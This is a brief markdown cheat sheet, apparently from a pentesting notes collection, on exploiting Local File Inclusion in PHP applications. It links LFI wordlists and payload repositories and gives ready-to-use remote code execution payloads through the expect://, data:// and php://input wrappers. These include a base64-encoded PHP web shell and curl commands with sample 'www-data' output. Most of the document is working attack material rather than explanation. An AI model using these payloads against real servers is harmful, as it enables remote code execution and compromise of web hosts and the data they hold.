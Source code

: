 ## file Inclusion methods and bypass

- [File Inclusion Methods and bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

## files to include

- [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
- [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
-  [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
- web directory conf files like (conf.php , .env files)

## Remote Code Execution

### PHP wrappers 
  

#### Wrapper expect://   `require Expect extension`
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper data://   `require allow_url_include on`
```bash
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain<?php+system($_GET['cmd']);echo+'Shell done !';+?>

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

#### Wrapper input://        `require allow_url_include on`
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper php://filter
[synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
```
<?php phpinfo(); ?>

```